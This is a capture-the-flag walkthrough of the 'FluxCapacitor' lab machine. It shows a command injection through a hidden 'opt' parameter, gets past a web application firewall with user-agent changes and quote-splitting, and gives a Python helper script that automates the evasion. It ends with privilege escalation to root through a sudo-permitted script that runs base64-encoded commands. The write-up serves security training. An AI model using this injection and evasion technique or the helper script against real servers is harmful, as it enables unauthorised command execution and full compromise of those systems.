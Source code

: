 # FluxCapacitor
### 10.10.10.69

Let's run a basic Nmap scan:
```{r, engine='bash', count_lines}
Nmap scan report for 10.10.10.69
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    SuperWAF
```

We see OpenSSH, which is not a common attack vector unless its very old, and an HTTP web-server called "SuperWAF" we can already assume there is some kind of WAF (Web Application Firewall) in place that will make our life harder.
If we open up the Website we can see a simple html website with some references to the Back To The Future Trilogy, but, in the source of the page we find something peculiar:
```{r, engine='javascript'}
<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
-->
```

the source tells us there's a page over at /sync which returns a timestamp with a get request.
if we browse over to /sync we get a 403 Forbidden error, it might be the WAF! some common ways for WAFs to block users is by checking the user agent for normal Operating Systems and Web Browsers, so if we change our useragent to a random string like 'hello', Great Scott! we get a timestamp:
```
20171219T11:30:25
```

but that's not very useful is it, what we do know though is that there is some kind of script here(which most of the time are ran on perl or php) which returns the timestamp every time we send a get request to it.
most of these scripts do a lot more than just send back the timestamp, so lets check for common options for accepting user input through get requests, but if we try to access /sync?cmd=/etc/passwd or /sync?c=/etc/passwd we get a 200 response with the timestamp every time. but! we have a WAF in place, which will block running commands like cat /etc/passwd if we do manage to get command execution, so if we find a GET argument which will return a 403 Forbidden, we will find a vulnerable variable.

So lets boot up WFUZZ(a tool which will allow us to run many requests with one part of the url changed, in this case the variable name), and run it with the dirbuster common dirs and files wordlist:
```{r, engine='bash', count_lines}
..snip..
10703:  C=403      7 L	      10 W	    175 Ch	  "opt"
..snip..
```

we can see that only one variable returns a 403 the opt variable! that's it! we got it!
now that we found a variable which probably runs commands directly, we must find a way to evade the WAF which blocks our requests. A common way for WAF's to filter requests is: If request includes "etc,cat,bin...." then block();
so lets try to make sure that out requests don't have any of those characters near each other, an easy way to do that, is just separating every character with a '' to a different string, and then letting the script itself concatenate them together when running them.
so if we send a request with opt=' l''s' (notice the space at the first letter, as by the errors we get if we try to run it without a space, its running bash -c"our command" so without a space, it wouldn't run)... HUZZAH! we get a list of files back.

```{r, engine='bash', count_lines}
> curl 10.10.10.69/sync?opt="' l''s'"
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
swapfile
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

but this is a little messy, and once we get to longer command it will become a tiring proccess to add all of those apostrophes to the command, so lets create a small python script to help us.
```{r, engine='python', count_lines}
import re
import sys
import pycurl
from StringIO import StringIO
s = sys.argv[1]
escaped = re.sub("(.{1})", "\\1''", s, 0, re.DOTALL)
buffer = StringIO()
c = pycurl.Curl()
url = "http://10.10.10.69/sync?opt=\' " + escaped + "\'"
c.setopt(c.URL, url)
c.setopt(c.WRITEDATA, buffer)
c.perform()
c.close()
body = buffer.getvalue()
print(body)
```

and we can now use it to run commands on the server, but, if we try to read the user.txt file in themiddle's home directory we only get a Back To The Future reference:
```{r, engine='bash', count_lines}
> python flux.py "cat home/themiddle/user.txt"
Flags? Where we're going we don't need flags.
```

if we keep poking around, we will find there is another home directory, for the "FluxCapacitorInc" user which includes another user.txt inside, this time with the user hash!
```{r, engine='bash', count_lines}
> python flux.py "cat home/FluxCapacitorInc/user.txt"
b8b6d46c893d0cd00c0f0380036117bc
```

but that's not enough, we need the root.txt file, but we dont have permissions to look in the root.txt directory as we're not root. Let's check what programs we are allowed to run as root:
```{r, engine='bash', count_lines}
> python flux.py "sudo -l"
Matching Defaults entries for nobody on fluxcapacitor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
```

Hmm, we are allowed to run a curious program called ".monit" in themiddle's home directory, if we check its content we find:
```{r, engine='bash', count_lines}
> python flux.py "cat /home/themiddle/.monit"
#!/bin/bash

if [ "$1" == "cmd" ]; then
	echo "Trying to execute ${2}"
	CMD=$(echo -n ${2} | base64 -d)
	bash -c "$CMD"
fi
```

Great! it seems like it will run any base64 encoded command we will send it.. as root! (as long as we pass it the "cmd" argument first) so lets try to copy the root.txt content's into a file we can read, so firstly we encode it into base64:
```{r, engine='bash', count_lines}
> echo 'cat /root/root.txt > /tmp/root.txt' | base64
Y2F0IC9yb290L3Jvb3QudHh0ID4gL3RtcC9yb290LnR4dAo=
```

then we run the monit program as root with the appropriate arguments:
```{r, engine='bash', count_lines}
> python flux.py "sudo -u root /home/themiddle/.monit cmd Y2F0IC9yb290L3Jvb3QudHh0ID4gL3RtcC9yb290LnR4dAo="
Trying to execute Y2F0IC9yb290L3Jvb3QudHh0ID4gL3RtcC9yb290LnR4dAo=
```

and then we will read it!
```{r, engine='bash', count_lines}
> python flux.py "cat /tmp/root.txt"
bdc89b40eda244649072189a8438b30e
```

and we got rootz!

